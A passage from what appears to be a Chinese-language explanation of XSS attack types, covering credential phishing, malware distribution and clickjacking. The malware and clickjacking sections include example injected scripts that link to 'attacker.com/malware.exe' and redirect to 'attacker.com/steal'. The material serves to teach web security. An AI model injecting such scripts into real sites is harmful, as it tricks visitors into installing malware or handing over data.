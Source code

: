 **说明**：
用户可能会误以为这是网站正常的登录提示，从而输入他们的凭证，攻击者随后可以收集这些信息。

### 2. **恶意软件下载（Malware Distribution）**

**描述**：
攻击者通过 XSS 漏洞在目标网站上注入脚本，诱导用户下载并安装恶意软件。

**示例**：
```html
<script>
  // 创建一个下载链接
  var downloadLink = document.createElement('a');
  downloadLink.href = 'https://attacker.com/malware.exe';
  downloadLink.textContent = '点击这里下载重要更新';
  downloadLink.style.display = 'block';
  document.body.appendChild(downloadLink);
</script>
```

**说明**：
用户可能会被诱导点击链接，下载并运行恶意软件，从而导致系统被感染。

### 3. **点击劫持（Clickjacking）**

**描述**：
攻击者通过 XSS 漏洞在目标网站上注入脚本，隐藏或覆盖页面内容，诱导用户点击隐藏的按钮或链接，执行非预期的操作。

**示例**：
```html
<script>
  // 创建一个透明的覆盖层
  var overlay = document.createElement('div');
  overlay.style.position = 'fixed';
  overlay.style.top = '0';
  overlay.style.left = '0';
  overlay.style.width = '100%';
  overlay.style.height = '100%';
  overlay.style.background = 'transparent';
  overlay.style.zIndex = '1000';
  document.body.appendChild(overlay);

  // 创建一个透明的按钮
  var button = document.createElement('button');
  button.style.position = 'absolute';
  button.style.top = '50%';
  button.style.left = '50%';
  button.style.transform = 'translate(-50%, -50%)';
  button.textContent = '点击这里领取奖品';
  button.onclick = function() {
    window.location.href = 'https://attacker.com/steal';
  };
  document.body.appendChild(button);
</script>
```
